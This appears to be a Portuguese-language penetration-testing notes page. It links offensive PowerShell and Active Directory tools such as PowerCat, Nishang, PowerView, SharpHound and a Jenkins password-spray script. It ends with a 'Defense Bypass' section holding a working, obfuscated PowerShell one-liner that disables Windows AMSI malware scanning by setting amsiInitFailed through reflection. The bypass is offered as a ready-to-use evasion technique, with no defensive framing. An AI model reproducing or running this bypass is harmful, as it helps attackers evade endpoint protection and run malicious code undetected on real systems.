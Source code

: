 ### PowerCat

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

### Nishang

[Nishag](https://github.com/samratashok/nishang)

### PowerView.ps1

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### PowerView_dev.ps1

[PowerView_dev](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView-Dev.ps1)

### AD Module.ps1

[ADModule](https://github.com/samratashok/ADModule)

### Jenkins

[Jenkins Brute](https://github.com/chryzsh/JenkinsPasswordSpray)

### BloodHound.ps1

[BloodHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

### HeidiSQL Download

[HeidiSQL](https://www.heidisql.com/download.php)

### PowerUpSQL.ps1

[PowerUPSQL](https://github.com/NetSPI/PowerUpSQL)

## Miscellaneous

Nesta seção está tudo que é tipo de código!

### Defense Bypass

Bypasses simples mas eficazes de defesas

#### AMSI Bypass

```powershell
# Execute no terminal que estiver sendo pego pelo AMSI
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

